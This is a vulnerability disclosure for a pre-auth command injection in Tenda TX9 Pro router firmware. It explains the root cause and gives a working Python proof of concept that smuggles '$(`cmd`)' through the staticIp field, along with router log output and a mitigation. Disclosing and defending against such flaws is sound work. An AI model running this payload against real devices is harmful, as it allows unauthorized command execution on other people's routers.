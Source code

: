 ## Pre-Auth Command Injection in Tenda-TX9 Pro

----
- Related products：[TX9 Pro](https://www.tendacn.com/product/download/TX9Pro.html) Update Date：2021/12/24
- Hardware Version: V1.0
- Software Version: V22.03.02.10
- Download: [TX9 Pro Firmware-Tenda-All For Better NetWorking (tendacn.com)](https://www.tendacn.com/download/detail-4219.html)
----

- Author: anhnlq (aka h4niz) from VNG Cloud
- Date: 20/04/2022

----

### Root cause
I found a vulnerability in `set_route()` function, the name was changed, the root cause was lack of validate data of user input. The program did not filter special charaters such as: backslash, brackets and `$`. The vulnerability code below:
![alt Vuln Graph](https://github.com/H4niz/Vulnerability/blob/main/res/vuln_graph.PNG)

By using `get_data_from_parameter()`, the name of function is changed, to get input from user and pass to `staticIp` variables. And then, program makes a command to set route by `arping` via `sprintf()` function. The command is made by sprintf() is `arping -fD %s -I %s -w 1 | grep reply`. By injecting command that wrap in backslash or `$` with brackets. Attacker can trigger a command injection. The vulnerability will be trigger by `doSystemCmd_route()`

----

### POC
```
#-*- encoding: utf8 -*-
#-*- encoding: utf8 -*-
import requests

# Product: Tenda Router
# Related products：TX9 ProUpdate Date：2021/12/24
# Hardware Version:V1.0
# Software Version:V22.03.02.10

# Command Injection

url = "http://192.168.1.13/goform/fast_setting_internet_set"
cmds = ["touch /tmp/h4niz", "id >> /tmp/h4niz"]

for i in cmds:
  p = '192.168.1.13$(`{}`)'.format(i)

  payload = {'netWanType': '0', 'dns1': '8.8.8.8', 'dns2': '1.1.1.1', 'staticIp': p, 'wanType': '1', 'mask': '255.255.255.0', 'gateway': '192.168.1.1', 'adslUser': '', 'adslPwd': '', 'action': 'connect'}
  r = requests.post(url, data=payload)
  print(r.status_code)
  print(r.content)
```

![alt Vuln Graph](https://github.com/H4niz/Vulnerability/blob/main/res/poc03_ezgif-5-76f5da890b.gif)

### Router output log:
```
Yes:

      ****** WeLoveLinux****** 

 Welcome to ...
main_test 481: g_lan_ip 0.0.0.0  admin
[httpd][debug]----------------------------webs.c,158
Unsupported setsockopt level=65535 optname=128
httpd listen ip = 0.0.0.0 port = 80
webs: Listening for HTTP requests at address 0.0.0.0
Unsupported setsockopt level=65535 optname=128
[192.168.1.13]..........
arping: Device eth1 not available.
static_arping
[ERROR][td_rpc_call         ][75   ]connect:Connection refused
[ERROR][td_rpc_invok        ][100  ]Call RPC Failed
Unsupported setsockopt level=65535 optname=128
[192.168.1.13]..........
arping: Device eth1 not available.
static_arping
[ERROR][td_rpc_call         ][75   ]connect:Connection refused
[ERROR][td_rpc_invok        ][100  ]Call RPC Failed
```


## Mitigation:
- Validate data before passing to command. Filter special charaters like: ```$,`,(,)```